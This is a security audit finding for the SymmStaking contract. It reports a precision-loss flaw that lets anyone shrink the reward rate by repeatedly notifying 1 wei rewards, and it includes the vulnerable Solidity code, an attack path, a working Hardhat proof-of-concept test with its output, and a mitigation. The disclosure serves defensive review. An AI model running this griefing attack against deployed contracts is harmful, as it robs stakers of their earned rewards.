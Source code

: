 Sleepy Rusty Snake

High

# Stakers lose most rewards because of the precision loss

### Summary

When we notify the rewards, we will update the reward rate. The round down in the `state.rate`'s calculation will cause reward loss.

### Root Cause

In [SymmStaking::notifyRewardAmount](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275), any users can distribute some rewards token to start one new distribution reward epoch. 

If the previous reward epoch does not finish, we will merge the remaining rewards into the new reward epoch. We use the formula like this:`state.rate = (amount + leftover) / state.duration`. The problem here is that there is one round down in the calculation. And the maximum loss for one round down is `state.duration - 1`(around 604800). If the reward token is USDC(6 decimals), one round down's precision loss can reach to 0.6 USDC. If malicious users keep notifying rewards via 1 wei to let the `state.rate` updated and round down. The rate will keep decreasing, even decreasing to 0.

For example:
1. Admin notifies 120960000 USDC(around 120 Dollar USD) into the staking contract in timestamp X. The rate is 200.
2. Alice stakes some SYMM to earn the rewards. Alice is the only staker, and Alice expects to get all rewards, around 120 USD.
3. Bob notifies rewards 1 wei via `notifyRewardAmount` in timestamp X + 2, the rate will be round down to 199.
4. Bob notifies rewards 1 wei via `notifyRewardAmount` in timestamp X + 4, the rate will be round down to 198.
5. Bob repeats to notify 1 wei rewards, the rate will be round down to 0.
6. Alice wants to claim rewards, she can only claim one small part from the expected rewards.

```solidity
	function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused {
		_updateRewardsStates(address(0));
		if (tokens.length != amounts.length) revert ArraysMismatched();

		uint256 len = tokens.length;
		for (uint256 i = 0; i < len; i++) {
			address token = tokens[i];
			uint256 amount = amounts[i];

			if (amount == 0) continue;
			if (!isRewardToken[token]) revert TokenNotWhitelisted(token);
			IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
			pendingRewards[token] += amount;
			_addRewardsForToken(token, amount);
		}
		emit RewardNotified(tokens, amounts);
	}

	function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];
		if (block.timestamp >= state.periodFinish) {
			state.rate = amount / state.duration;
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
			state.rate = (amount + leftover) / state.duration;
			console.log("current rate: ", state.rate);
		}
		// update lastUpdated.
		state.lastUpdated = block.timestamp;
		// update period finish.
		state.periodFinish = block.timestamp + state.duration;
	}

```

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. Admin notifies 120960000 USDC(around 120 Dollar USD) into the staking contract in timestamp X. The rate is 200.
2. Alice stakes some SYMM to earn the rewards. Alice is the only staker, and Alice expects to get all rewards, around 120 USD.
3. Bob notifies rewards 1 wei via `notifyRewardAmount` in timestamp X + 2, the rate will be round down to 199.
4. Bob notifies rewards 1 wei via `notifyRewardAmount` in timestamp X + 4, the rate will be round down to 198.
5. Bob repeats to notify 1 wei rewards, the rate will be round down to 0.
6. Alice wants to claim rewards, she can only claim one small part from the expected rewards.

### Impact

Stakers may lose most of the staking rewards because of the precision loss.

### PoC

Add this test case into symmStaking.behavior.ts.

```javascript
	describe("Reward Calculation", function () {
		it.only("POC should calculate reward correctly after single user deposit", async function () {
			const depositAmount = "120960000"; // 604800 * 200, 200 wei per seconds.
			const rewardAmount = depositAmount
			// Step1: user1 deposit, user1 is the only depositor.
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)
			// Step2: notify rewards
			await stakingToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await stakingToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await stakingToken.getAddress()], [rewardAmount])

			for(let i = 0; i < 200; i++) {
				await time.increase(2)
				await stakingToken.connect(user2).approve(await symmStaking.getAddress(), 1)
				//const balance = await stakingToken.balanceOf(user2.address);
				await symmStaking.connect(user2).notifyRewardAmount([await stakingToken.getAddress()], [1])	
			}
			await time.increase(7 * 24 * 60 * 60);
			const user1BalanceBefore = await stakingToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter = await stakingToken.balanceOf(user1.address)
			const claimed = user1BalanceAfter - user1BalanceBefore
			console.log("Claimed amount: ", claimed);
		})
```
The log is as below:
```bash
Claimed amount:  80399n
```
The user1 expects to get `120960000` USDC rewards, but he can only get `80399` USDC rewards.

### Mitigation

Add one precision decimal in the rate's calculation.